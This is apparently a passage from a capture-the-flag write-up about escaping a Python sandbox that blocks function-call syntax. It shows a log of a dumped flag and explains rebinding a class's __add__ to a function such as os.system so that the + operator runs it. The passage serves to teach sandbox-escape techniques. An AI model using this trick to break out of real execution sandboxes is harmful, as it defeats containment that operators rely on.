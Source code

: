 ```log
-- Executing safe code:
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 2: Syntax error: newline unexpected
sh: 1: Syntax error: word unexpected (expecting ")")
sh: 2: Syntax error: newline unexpected
sh: 1: __main__: not found
sh: 1: MyException: not found
CTF{CzeresniaTopolaForsycja}
```

And as we can see, we dumped the flag!

`CTF{CzeresniaTopolaForsycja}`

### Solution 2 - Operator Overloading

Let's try to use now operator overloading to dump the flag. With operator overloading we can implicitly invoke functions without using the `()` operator which corresponds to an `ast.Call` node. For example `'a'+'b'` corresponds to `'a'.__add__('b')`.

Let's play a little bit in ipython:

```python
In [9]: class Baz:
   ...:     def __init__(self):
   ...:         pass
   ...:     def __add__(self, other):
   ...:         pass
   ...:

In [10]: Baz.__add__
Out[10]: <function __main__.Baz.__add__(self, other)>

In [11]: b=Baz()

In [12]: b.__add__
Out[12]: <bound method Baz.__add__ of <__main__.Baz object at 0x7f0c38834670>>
```

The difference between a "bound method" and a "function" is that: Binding a function to an instance has the effect of fixing its first parameter to the instance. So, `b.__add__(x)` is equivalent to `Baz.__add__(b, x)`. So, we can change the `__add__` method to something like `os.system` and then use the operator `+` to indirectly invoke the function and escape the sandbox.

```python
In [13]: Baz.__add__=print

In [14]: Baz.__add__
Out[14]: <function print>

In [15]: b.__add__
Out[15]: <function print>
```

As we can see, changing `Baz.__add__` changes the function pointer for all existing instances. Also, it is no longer a bound method, but just a function. So, `b.__add__(x)` is equivalent to just `print(x)`.
